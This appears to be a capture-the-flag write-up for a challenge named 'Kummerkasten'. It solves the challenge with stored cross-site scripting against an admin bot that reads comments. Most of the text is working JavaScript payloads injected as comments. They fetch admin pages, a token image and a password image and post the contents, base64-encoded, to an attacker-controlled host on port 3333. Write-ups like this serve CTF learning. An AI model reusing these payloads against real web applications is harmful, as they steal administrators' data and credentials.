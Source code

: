 # Kummerkasten

> He's still in seclusion, so he probably has a lot of time to frequently check for any new comments.

Sounds like a XSS is possible. Let's try:
```javascript
<script type="text/javascript">
$.post("http://your-server.net:3333");
</script>
```

After some minutes, you should see a request from the admin. Check the `Referer` header and open this page:
```javascript
<script type="text/javascript">
$.get("/admin/comment/f1e92de5-cdbf-461c-9e9f-5be607cfb97d", function(data) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

Nice, in the navigation there is a link to `/admin/token`! Let's open it:
```javascript
<script type="text/javascript">
$.get("/admin/token", function(data) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

We got trolled, there is an image :/. Now we have to get the image and send it to our server, so we base64 encode it and send it in the POST request:
```javascript
<script type="text/javascript">
// http://www.henryalgus.com/reading-binary-files-using-jquery-ajax/
function fetchBlob(uri, callback) {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', uri, true);
  xhr.responseType = 'arraybuffer';

  xhr.onload = function(e) {
    if (this.status == 200) {
      var blob = this.response;
      if (callback) {
        callback(blob);
      }
    }
  };
  xhr.send();
};

// http://stackoverflow.com/a/9458996/128597
function _arrayBufferToBase64(buffer) {
    var binary = '';
    var bytes = new Uint8Array(buffer);
    var len = bytes.byteLength;
    for (var i = 0; i < len; i++) {
        binary += String.fromCharCode(bytes[i]);
    }
    return window.btoa(binary);
};

fetchBlob("admin/img/token.png?20151228", function(blob) {
  $.post("http://your-server.net:3333", _arrayBufferToBase64(blob));
});
</script>
```

Unfortunately this didn't work. Either the admin (a bot of course) was down or it was because the "comment" is too long, so just minify the javascript.
Then decode the base64 data and open the png file. Looks like a token!


But it didn't work...
Next day we got a hint in the description: There are two parts of the token and we have to concatenate it.

So let's recheck the HTML code of the admin page... and we find another link to `/admin/bugs`. Let's open it:
```javascript
<script type="text/javascript">
$.get("/admin/bugs", function(data) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

There is another image on this page, let's request it:
```javascript
<script type="text/javascript">
// http://www.henryalgus.com/reading-binary-files-using-jquery-ajax/
function fetchBlob(uri, callback) {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', uri, true);
  xhr.responseType = 'arraybuffer';

  xhr.onload = function(e) {
    if (this.status == 200) {
      var blob = this.response;
      if (callback) {
        callback(blob);
      }
    }
  };
  xhr.send();
};

// http://stackoverflow.com/a/9458996/128597
function _arrayBufferToBase64(buffer) {
    var binary = '';
    var bytes = new Uint8Array(buffer);
    var len = bytes.byteLength;
    for (var i = 0; i < len; i++) {
        binary += String.fromCharCode(bytes[i]);
    }
    return window.btoa(binary);
};

fetchBlob("admin/img/root_pw.png?20151228", function(blob) {
  $.post("http://your-server.net:3333", _arrayBufferToBase64(blob));
});
</script>
```
(Don't forget to minify the javascript source)

Same as before, decode the base64 data, save as png and open the file in an image viewer. The token is the mysql password of the production environment.

Concatenate it (first the mysql password, then the other number-only token) and you're done.
